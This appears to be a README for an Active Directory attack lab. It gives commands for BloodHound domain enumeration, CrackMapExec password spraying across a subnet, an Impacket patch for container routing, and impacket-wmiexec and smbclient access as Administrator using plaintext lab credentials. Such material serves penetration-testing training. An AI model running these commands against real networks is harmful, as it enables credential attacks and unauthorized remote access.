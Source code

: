 > Access localhost:7474 -> neo4j/neo4j

```sh
pip install bloodhound

echo "172.140.0.40 dc01.xyz.com" >> /etc/hosts
echo -e "nameserver 172.140.0.40\noptions ndots:0\nnameserver 8.8.8.8" > /etc/resolv.conf
```
> Access http://localhost:7474

`bloodhound-python -u lterry -p brianna -dc dc01.xyz.com -d xyz.com`

## Change Collection Method (More information)
`bloodhound-python -u rbond -p booboo -dc dc01.xyz.com -d xyz.com -c all`

- Login into bloodhound
- Upload data from previous collection
- Explore it

# Impacket

```sh
crackmapexec smb 172.140.0.0/24
crackmapexec winrm 172.140.0.0/24

crackmapexec winrm targets.txt -u users.txt -p passwords.txt --continue-on-success -d xyz.com | grep '[+]'
```

## Get a Shell on that User (Local Admin Account)

`impacket-wmiexec xyz.com/Administrator:completeSecurePassw0rd@172.140.0.40 -debug`

As we have a middle man which is the container, we need to change a little bit the logic of Impacket's python script:
Ref: https://github.com/fortra/impacket/issues/272

`nano /usr/lib/python3/dist-packages/impacket/dcerpc/v5/dcomrt.py`

Line 1283
```py
LOG.debug('StringBinding chosen: %s' % stringBinding)
if stringBinding is None:
	stringBinding = 'ncacn_ip_tcp:%s%s' % (self.get_target(), bindingPort)
    
dcomInterface = transport.DCERPCTransportFactory(stringBinding)
```

`impacket-wmiexec xyz.com/user:password@172.140.0.40 -debug`

- Check privileges: `whoami /priv`

Try `impacket-smbclient` for file shares:
`impacket-smbclient xyz.com/Administrator:completeSecurePassw0rd@172.140.0.40`
